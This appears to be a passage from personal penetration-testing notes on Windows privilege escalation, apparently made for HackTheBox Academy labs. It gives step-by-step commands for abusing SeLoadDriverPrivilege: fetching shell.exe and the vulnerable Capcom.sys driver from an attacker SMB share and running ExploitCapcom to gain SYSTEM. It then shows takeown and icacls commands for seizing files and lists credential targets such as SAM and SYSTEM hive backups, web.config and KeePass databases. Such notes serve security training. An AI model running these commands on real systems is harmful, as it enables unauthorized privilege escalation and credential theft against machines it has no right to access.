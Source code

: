 Thus, we can exploit it though the Capcom driver, that allows any user to execute shellcode with SYSTEM privileges. 

Following this [GUIDE](https://github.com/cbbn00/SeLoadDriverAbuse) (different in [academy](https://academy.hackthebox.com/module/67/section/605))

1. Open an SMB share from `~/TOOLS/PRIVESC_WINDOWS/SeLoadDriverAbuse`

2. Copy in this location (IMPORTANT)

	```cmd
	copy \\[IP]\share\shell.exe c:\windows\tasks\shell.exe
	```

3. Load the driver:

	```cmd
	\\[IP]\share\EoPLoadDriver.exe System\CurrentControlSet\Capcom \\[IP]\share\Capcom.sys
	```

4. Exploit:

	```cmd
	\\10.10.14.178\share\ExploitCapcom.exe
	```

#### SeTakeOwnership

1. [takeown](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown) Windows binary to change ownership of the file: 

	```cmd
	takeown /f '[FILE/FOLDER]'
	```

2. Modify the file ACL (Access Control List)

	```cmd
	icacls "[FILE/FOLDER]" /grant %username%:F
	```

- `F`: full access
- `R/W` Read/write access

Some example files:

```shell-session
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```

Also `.kdbx` KeePass database files, OneNote notebooks, files such as `passwords.*`, `pass.*`, `creds.*`, scripts...
